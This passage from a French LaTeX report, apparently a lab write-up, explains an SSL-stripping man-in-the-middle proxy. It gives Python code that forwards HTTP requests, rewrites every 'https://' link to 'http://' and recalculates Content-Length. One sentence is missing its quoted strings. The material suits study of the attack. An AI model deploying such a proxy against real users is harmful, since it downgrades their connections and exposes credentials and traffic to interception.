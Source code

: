 Voici la fonction implémentant la reception d'une requête HTTP :

\begin{verbatim}
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)
\end{verbatim}

A la fin, on transforme tous les liens https trouvé en http et on recalcule la taille de la requête (entête Content-Length).

\subparagraph{Transformation des liens \\}

La transformation se fait à l'aide d'une expression régulière qui remplace  par  dans les données HTTP.

\begin{verbatim}
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)
\end{verbatim}

\subparagraph{Recalcule de l'entête Content-Length \\}

Il faut ensuite recalculer l'entête Content-Length, en se basant sur le début des données HTTP situées après la séquence "{\textbackslash}r{\textbackslash}n{\textbackslash}r{\textbackslash}n" :

\begin{verbatim}
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
\end{verbatim}

\subsubsection{Etape 3 : pendant l'attaque}

